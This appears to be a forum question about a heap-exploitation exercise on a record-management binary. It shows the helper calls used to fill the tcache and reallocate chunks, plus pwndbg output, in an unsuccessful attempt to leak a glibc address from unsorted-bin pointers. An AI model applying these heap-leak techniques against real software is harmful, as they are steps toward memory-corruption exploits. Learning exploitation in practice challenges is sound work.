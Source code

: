 ```
    000000d0  20 52 65 63  6f 72 64 5d                            │ Rec│ord]│
    000000d8
AAAAAAAA\xe0\xcd\x13\x9a\xd6\x7f\x00\x00

```
what I did was:
```
delete_record(0)
delete_record(1)
delete_record(2)
delete_record(3)
delete_record(4)
delete_record(5)
delete_record(7)
delete_record(6)
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
add_record(0x10, b'BBBBBBBB')
print_record()
```
I used `add_record(0x10, b'BBBBBBBB')` to allocate the chunk that is the record of the free chunk which holds the glibc address as it's fd and bk pointer.
```
Allocated chunk | PREV_INUSE
Addr: 0x5595a7013fd0
Size: 0x20 (with flag bits: 0x21)

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5595a7013ff0
Size: 0x1f0 (with flag bits: 0x1f1)
fd: 0x7fd69a13cbe0
bk: 0x7fd69a13cbe0
```

But I did not leak the glibc address that is being the fd/bk pointer.
the address seems to be a glibc address pointing to `0x7fd69a13cbe0`


```
pwndbg> telescope 0x5595a7013fd0
00:0000│  0x5595a7013fd0 —▸ 0x5595a7013fe0 ◂— 0x4242424242424242 ('BBBBBBBB')
01:0008│  0x5595a7013fd8 ◂— 0x21 /* '!' */
02:0010│  0x5595a7013fe0 ◂— 0x4242424242424242 ('BBBBBBBB')
03:0018│  0x5595a7013fe8 —▸ 0x7fd69a13cde0 —▸ 0x7fd69a13cdd0 —▸ 0x7fd69a13cdc0 —▸ 0x7fd69a13cdb0 ◂— ...
04:0020│  0x5595a7013ff0 ◂— 0
05:0028│  0x5595a7013ff8 ◂— 0x1f1
06:0030│  0x5595a7014000 —▸ 0x7fd69a13cbe0 —▸ 0x5595a7014410 ◂— 0
07:0038│  0x5595a7014008 —▸ 0x7fd69a13cbe0 —▸ 0x5595a7014410 ◂— 0

```
